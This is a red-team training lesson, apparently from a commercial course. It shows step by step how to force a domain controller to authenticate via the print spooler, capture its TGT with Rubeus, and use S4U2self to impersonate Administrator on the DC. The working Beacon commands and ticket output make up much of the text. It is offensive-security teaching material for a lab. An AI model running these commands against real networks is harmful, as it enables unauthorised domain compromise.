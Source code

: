 # S4U2self Computer Takeover

In the previous lab on [unconstrained delegation](https://www.zeropointsecurity.co.uk/path-player?courseid=red-team-ops\&unit=6731fd18dc6d251272081c5f), there was an automated task that had the user _dyork_ interact with the CIFS service on _lon-ws-1_ (e.g. `dir \\lon-ws-1\c$`).  Because this computer was configured for unconstrained delegation, it allowed us to capture their TGT from memory and impersonate them to access the domain controller (since dyork happened to be a domain admin).

In the real world, we're obviously not guaranteed to have a user, let alone a DA, interact with the computer whilst we're monitoring for tickets.  Although there are techniques to harvest them by [seeding](https://www.mdsec.co.uk/2021/02/farming-for-red-teams-harvesting-netntlm/) files such as `.lnk`, `.url`, `.library-ms`, and `.searchConnector-ms`, they still rely on user-interaction.  The objective of this lesson is to go after a computer (such as domain controller) directly.

There are multiple 'remote authentication triggers' that can be used to force a computer to authenticate to another computer.  Two popular techniques include Lee Christensen's 'SpoolSample', which uses the Print System Remote Protocol \[MS-RPRN]; and Topotam's 'PetitPotam', which uses the Encrypting File System Remote Protocol \[MS-EFSRPC].

We could therefore monitor for tickets on lon-ws-1:

```batch
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe monitor /interval:5 /nowrap
```

Then use a tool such as [SharpSystemTriggers](https://github.com/cube0x0/SharpSystemTriggers) to force _lon-dc-1_ to authenticate to _lon-ws-1_.

```batch
beacon> execute-assembly C:\Tools\SharpSystemTriggers\SharpSpoolTrigger\bin\Release\SharpSpoolTrigger.exe lon-dc-1 lon-ws-1

NdrClientCall2x64
[-]RpcRemoteFindFirstPrinterChangeNotificationEx status: 6
```

\
The remote authentication trigger should be run as a standard domain user in a medium-integrity context.

Rubeus will then capture the TGT of the targeted computer account.

```batch
[*] 21/02/2025 11:54:39 UTC - Found new TGT:

  User                  :  LON-DC-1$@CONTOSO.COM
  StartTime             :  21/02/2025 10:39:21
  EndTime               :  21/02/2025 20:38:58
  RenewTill             :  28/02/2025 10:38:58
  Flags                 :  name_canonicalize, pre_authent, renewable, forwarded, forwardable
  Base64EncodedTicket   :

    doIFt[...snip...]5DT00=
```

However, if you inject this ticket into a logon session and attempt to access the computer using a service like CIFS, you'll see that it will fail with an 'access denied' error.

```batch
beacon> run klist

Cached Tickets: (1)

#0>	Client: LON-DC-1$ @ CONTOSO.COM
	Server: krbtgt/CONTOSO.COM @ CONTOSO.COM
	KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
	Ticket Flags 0x60a10000 -> forwardable forwarded renewable pre_authent name_canonicalize 
	Start Time: 2/21/2025 10:39:21 (local)
	End Time:   2/21/2025 20:38:58 (local)
	Renew Time: 2/28/2025 10:38:58 (local)
	Session Key Type: AES-256-CTS-HMAC-SHA1-96
	Cache Flags: 0x1 -> PRIMARY 
	Kdc Called: 

beacon> ls \\lon-dc-1\c$
[-] could not open \\lon-dc-1\c$\*: 5 - ERROR_ACCESS_DENIED
```

This is because computer accounts do not get local admin access to themselves remotely.  The workaround to compromise any computer once you have its TGT is to use the S4U2self protocol to obtain a usable service ticket for a different (impersonated) user.  I believe this technique was first published by [Elad Shamir](https://eladshamir.com/2019/01/28/Wagging-the-Dog.html) and merged into Rubeus by [Charlie Clark](https://exploit.ph/revisiting-delegate-2-thyself.html).

Charlie added a new `/self` parameter to Rubeus' `s4u` command.

```batch
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe s4u /impersonateuser:Administrator /self /altservice:cifs/lon-dc-1 /ticket:doIFt[...snip...]5DT00= /nowrap
```

Where:

* `/impersonateuser` is the user we want to impersonate.
* `/self` tells Rubeus not to submit an S4U2proxy request.
* `/altservice` is the SPN we want substituted into the service ticket.
* `/ticket` is the computer's TGT.

```batch
[*] Action: S4U

[*] Building S4U2self request for: 'LON-DC-1$@CONTOSO.COM'
[*] Using domain controller: lon-dc-1.contoso.com (10.10.120.1)
[*] Sending S4U2self request to 10.10.120.1:88
[+] S4U2self success!
[*] Substituting alternative service name 'cifs/lon-dc-1'
[*] Got a TGS for 'Administrator' to 'cifs@CONTOSO.COM'
[*] base64(ticket.kirbi):

      doIF/[...snip...]kYy0x
```

Rubeus performs an S4U2self request exactly as we saw with [constrained delegation](https://www.zeropointsecurity.co.uk/path-player?courseid=red-team-ops\&unit=6731fd211c053b7aa602ab3b) when 'Kerberos only' is in use, i.e. for the target user where the service is the computer's own SamAccountName (_Administrator@LON-DC-1$_).  This returns a valid service ticket that would normally be used in an S4U2proxy request.  However, we can't do that since there is no constrained delegation here.  Instead, Rubeus simply swaps out the service name for the service specified in the `/altservice` parameter, which in this case becomes _Administrator@cifs/lon-dc-1_.  Again, this works because the CIFS service runs under the context of the computer account (i.e. SYSTEM), so the encrypted part of the ticket can still be decrypted.

```batch
beacon> run klist

Cached Tickets: (1)

#0>	Client: Administrator @ CONTOSO.COM
	Server: cifs/lon-dc-1 @ CONTOSO.COM
	KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
	Ticket Flags 0x60a50000 -> forwardable forwarded renewable pre_authent ok_as_delegate name_canonicalize 
	Start Time: 2/21/2025 12:42:53 (local)
	End Time:   2/21/2025 20:38:58 (local)
	Renew Time: 2/28/2025 10:38:58 (local)
	Session Key Type: AES-256-CTS-HMAC-SHA1-96
	Cache Flags: 0 
	Kdc Called: 

beacon> ls \\lon-dc-1\c$

 Size     Type    Last Modified         Name
 ----     ----    -------------         ----
          dir     01/24/2025 13:33:39   $Recycle.Bin
          dir     01/23/2025 13:57:51   $WinREAgent
          dir     01/23/2025 13:47:37   Documents and Settings
          dir     05/08/2021 08:20:24   PerfLogs
          dir     01/23/2025 15:46:17   Program Files
          dir     01/23/2025 15:46:18   Program Files (x86)
          dir     02/21/2025 11:06:13   ProgramData
          dir     01/23/2025 13:47:43   Recovery
          dir     01/29/2025 10:42:20   System Volume Information
          dir     01/24/2025 13:33:21   Users
          dir     01/24/2025 13:49:56   Windows
 12kb     fil     02/21/2025 02:38:14   DumpStack.log.tmp
 1gb      fil     02/21/2025 02:38:14   pagefile.sys
```
